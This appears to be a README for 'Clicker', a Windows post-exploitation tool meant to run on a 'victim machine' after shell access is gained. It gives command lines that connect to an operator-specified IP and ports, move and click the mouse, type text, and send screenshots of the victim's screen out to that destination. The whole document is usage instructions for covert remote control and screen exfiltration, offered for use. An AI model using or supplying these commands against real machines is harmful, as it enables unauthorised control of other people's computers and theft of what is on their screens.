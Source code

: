 # Clicker
It's a pseudo remote GUI operation tool for Windows.  
You need shell access to use Clicker on the victim machine.

If you use ClickOperator, this command is needed
```
clicker.exe -b {dst IP address} {dst port for command} {dst port for data}
```

You can move mouse cursor and click (x and y are coordinates, left click=L, left double click=L2, right click=R)
```
clicker.exe -e {dst IP address} {dst port for data} "c:x,y,L"
```
Clicker get screen-shot and send it to specified destination.

Input text
```
clicker.exe -e 127.0.0.1 {port for data} "i:input this text !"
```
you can use KeyCode  
https://docs.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys.send?view=net-5.0



